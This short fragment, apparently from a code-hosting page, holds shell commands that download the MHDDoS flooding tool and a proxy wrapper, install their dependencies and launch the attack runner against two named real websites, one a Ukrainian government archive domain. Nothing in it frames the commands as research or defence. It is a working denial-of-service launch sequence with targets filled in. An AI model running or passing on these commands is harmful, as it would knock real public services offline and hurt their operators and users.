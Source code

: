 
git clone https://github.com/dep-x/proxy.git
cd proxy
git clone https://github.com/MHProDev/MHDDoS.git
python3 -m pip install -r MHDDoS/requirements.txt
python3 runner.py https://archivzp.gov.ua http://arhives.in.ua
